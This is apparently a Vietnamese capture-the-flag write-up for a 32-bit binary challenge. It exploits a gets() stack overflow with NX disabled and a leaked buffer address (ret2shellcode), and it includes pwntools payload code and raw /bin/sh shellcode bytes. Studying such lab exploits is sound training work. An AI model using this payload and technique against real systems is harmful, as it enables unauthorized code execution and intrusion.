

# Level03

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
Level03: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e409dfbe51a5b1c5dfc881a316c209e57d9aeccd, not stripped
```
Đây là file 32-bit không bị ẩn tên hàm.

Kế đến, kiểm tra security của file:

```
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Vậy là toàn bộ chế độ bảo vệ, bao gồm cả NX (No eXecute)-là một tính năng bảo mật giúp ngăn việc thực thi mã từ các vùng bộ nhớ không thể thực thi

Tiếp đến ta sẽ sử dụng ida-pro-32bit

Ta có hàm `main()`:


# 2. Ý tưởng

Do ở bài này, chế độ bảo vệ NX đã bị tắt mà ở ngay đầu hàm `main()`, chương trình đã in ra địa chỉ của biến nhập vào `s`

```
printf("Cai nay %x la cai gi vay co an duoc khong?\n", s);
```

-> Sử dụng kỹ thuật `ret2shellcode`

# 3. Khai thác

Đầu tiên, do NX đã bị tắt, ta sẽ xem vùng nhớ nào có quyền thực thi bằng câu lệnh `vmmap` trong `gdb`


Vậy là vùng nhớ có quyền thực thi là stack mà biến `s` được lưu trên stack cộng thêm việc ta đã có địa chỉ ấy ngay từ đầu

-> Lợi dụng câu lệnh `gets()` thực hiện lỗ hổng tràn bộ nhớ đệm - buffer overflow để ghi đè `return_addr` về địa chỉ của shellcode

Đầu tiên ta sẽ sử dụng câu lệnh để loại bỏ các ký tự thừa không cần thiết:

```
p.recvuntil(b"Cai nay ")
```



Tiếp đến, lấy các ký tự là địa chỉ của biến `s` và biến nó tự dạng `hex - 16` sang dạng `int - 10`:

```
stack_leak = int(p.recv(8),16)
```

Kế đến, nhìn vào ida ta có địa chỉ của biến `s`: 

```
char s[8]; // [esp+Ch] [ebp-Ch]
```

-> Mã khai thác của ta sẽ như sau:

+ 12 bytes đầu ghi đè biến `s` ([ebp-Ch])
+ 4 bytes sau là ghi đè ebp
+ 4 bytes tiếp đó là địa chỉ của ret_addr, ta ghi đè địa chỉ này thành địa chỉ của shellcode
+ shellcode

Tính toán địa chỉ shellcode:

Do ban đầu chương trình cho ta địa chỉ biến `s`, mà nhìn lại đoạn mã khai thác trên cho thấy shellcode ở sau biến `s` 1 khoảng là 20 bytes

-> địa chỉ shellcode = địa chỉ biến `s` + 20

```
shellcode = b"\x31\xdb\xb3\x03\x31\xc9\xb1\x03\xfe\xc9\x31\xc0\xb0\x3f\xcd\x80\x80\xf9\xff\x75\xf3\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload = b"a"*16 + p32(stack_leak + 20 ) + shellcode
```

Shellcode ở link: https://www.exploit-db.com/exploits/42428

